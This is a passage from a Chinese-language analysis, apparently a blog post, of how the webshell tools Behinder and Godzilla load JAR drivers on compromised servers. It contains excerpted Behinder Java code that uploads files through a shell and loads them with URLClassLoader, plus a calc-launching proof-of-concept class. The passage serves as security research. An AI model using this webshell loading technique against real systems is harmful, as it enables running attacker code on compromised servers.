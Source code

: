 ```
         }
      } else if (scriptType.equals("aspx")) {
         if (databaseType.equals("mysql")) {
            libName = "mysql.data.dll";
         } else if (databaseType.equals("oracle")) {
            libName = "Oracle.ManagedDataAccess.dll";
         }
      }
      byte[] driverFileContent = Utils.getResourceData(driverPath + libName);
      String remotePath = remoteDir + libName;
      //将jar先上传到临时目录
      this.currentShellService.uploadFile(remotePath, driverFileContent, true);
      Platform.runLater(() -> {
         this.statusLabel.setText("驱动上传成功，正在加载驱动……");
      });
      //将libPath传递给服务端加载
      JSONObject loadRes = this.currentShellService.loadJar(remotePath);
      if (loadRes.getString("status").equals("fail")) {
         throw new Exception("驱动加载失败:" + loadRes.getString("msg"));
      } else {
         Platform.runLater(() -> {
            if (scriptType.equals("jsp")) {
               this.statusLabel.setText("驱动加载成功，请再次点击“连接”。");
            }
            this.statusLabel.setText("驱动加载成功。");
         });
      }
   }
```

```
import java.io.IOException;
public class calc {
    public calc() {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException var2) {
            var2.printStackTrace();
        }
    }
}
```

WebShell 获取到 libPath 然后用 URLClassLoader 去加载。

net.rebeyond.behinder.payload.java.Loader

![](https://mmbiz.qpic.cn/mmbiz_png/lkcJVly3Wy2iawqL1S4qTmEFElpSDibibG9BoqMiaTPDiblXWN6FwE37FEQHn26xj7uNqcIqYP5zeY0KOlP1eNJlibPg/640?wx_fmt=png)

#### 哥斯拉

哥斯拉的操作就比较秀了。因为打入一个 jar 不像打入一个 class 一样，直接有 defineClass 方法去接收一个字节数组。据我的研究，没有直接接收一个 jar 的字节数组的方法。打入 jar 需要使用 **URLClassLoader** 这个类，大概有两种方式，一种是利用 http 协议，远程获取所要加载的 jar。另一种是 file 协议，从本地路径去读取 jar。
